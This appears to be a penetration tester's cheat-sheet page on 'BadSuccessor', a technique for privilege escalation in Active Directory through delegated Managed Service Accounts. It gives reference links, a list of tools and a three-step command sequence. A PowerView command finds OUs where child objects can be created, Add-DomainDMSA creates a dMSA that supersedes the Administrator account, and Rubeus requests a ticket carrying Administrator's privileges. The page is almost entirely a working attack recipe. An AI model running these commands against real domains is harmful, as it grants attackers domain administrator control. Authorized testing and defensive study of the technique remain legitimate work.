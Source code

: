 ```yaml
---
description: Abusing dMSA to Escalate Privileges in Active Directory
---
```


# BadSuccessor

- [https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187](https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187)
- [https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/](https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/)

Enumerate OUs where we can create child objects:

```
PV > Get-DomainObjectAcl -LDAPFilter "(objectClass=organizationalUnit)" -Where "ActiveDirectoryRights contains CreateChild"
```

Create a DMSA account with a privileged account in the `msDS-ManagedAccountPrecededByLink` property:

```
PV > Add-DomainDMSA -Identity mydmsa -PrincipalsAllowedToRetrieveManagedPassword j.doe -SupersededAccount Administrator
PV > Get-DomainDMSA mydmsa
```

Ask for a TGT containing the privileged account PAC:

```
Cmd > Rubeus.exe asktgs /targetuser:mydmsa$ /service:krbtgt/megacorp.local /dmsa /opsec /nowrap /ticket:<JDOE_TGT>
```




## Tools

- [https://github.com/akamai/BadSuccessor](https://github.com/akamai/BadSuccessor)
- [https://github.com/cybrly/badsuccessor](https://github.com/cybrly/badsuccessor)
- [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1)
